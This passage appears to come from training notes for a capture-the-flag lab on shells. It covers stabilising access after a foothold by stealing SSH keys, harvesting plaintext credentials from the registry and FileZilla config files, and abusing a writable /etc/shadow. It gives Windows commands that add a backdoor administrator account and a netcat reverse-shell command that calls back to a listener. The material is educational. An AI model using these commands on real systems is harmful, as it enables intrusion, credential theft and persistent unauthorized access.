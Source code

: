 ```
We've covered lots of ways to generate, send and receive shells. The one thing that these all have in common is that they tend to be unstable and non-interactive. Even Unix style shells which are easier to stabilise are not ideal. So, what can we do about this?

- On ```Linux``` ideally we would be looking for opportunities to gain access to a user account. ```SSH keys``` stored at ```/home/<user>/.ssh``` are often an ideal way to do this. 

In CTFs it's also not infrequent to find credentials lying around somewhere on the box. Some exploits will also allow you to add your own account. In particular something like [Dirty C0w](https://dirtycow.ninja/) or a ```writeable /etc/shadow``` or ```/etc/passwd``` would quickly give you SSH access to the machine, assuming SSH is open.

- On ```Windows``` the options are often more limited. It's sometimes possible to ```find passwords for running services in the registry```. ```VNC servers```, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the ```FileZilla FTP server``` also leave credentials in an XML file at ```C:\Program Files\FileZilla Server\FileZilla Server.xml```
 or ```C:\xampp\FileZilla Server\FileZilla Server.xml```
. These can be MD5 hashes or in plaintext, depending on the version.

Ideally on Windows you would ```obtain a shell running as the SYSTEM user, or an administrator account running with high privileges```. 

In such a situation it's possible to simply ```add your own account``` (in the administrators group) to the machine, then ```log in over RDP```, ```telnet, winexe, psexec, WinRM or any number of other methods```, dependent on the ```services running on the box```.

The syntax for this is as follows:
```
net user <username> <password> /add
```
```
net localgroup administrators <username> /add
```

### The important take away from this task:

```Reverse and Bind shells``` are an essential technique for ```gaining remote code execution``` on a machine, however, they will never be as fully featured as a native shell. Ideally we always want to escalate into using a "normal" method for accessing the machine, as this will invariably be easier to use for further exploitation of the target.

---

Task 13  Practice and Examples - 1:00 - With Task 14 and 15 Parctice Boxes
---
This room contained a lot of information, and gave you little opportunity to put it into practice throughout. 

The following two tasks contain virtual machines 
(one Ubuntu 18.04 server and one Windows server), each configured with a simple webserver with which you can upload and activate shells. 

This is a sandbox environment, so there will be no filters to bypass. Login credentials and instructions for each will also be given, should you wish to log in to practice with ```netcat, socat or meterpreter shells```.

The remainder of this task will consist of shell examples for you to try out on the practice boxes.

---


1. Try uploading a webshell to the Linux box, then use the command: 
```
nc <LOCAL-IP> <PORT> -e /bin/bash
```
to send a reverse shell back to a waiting listener on your own machine.

```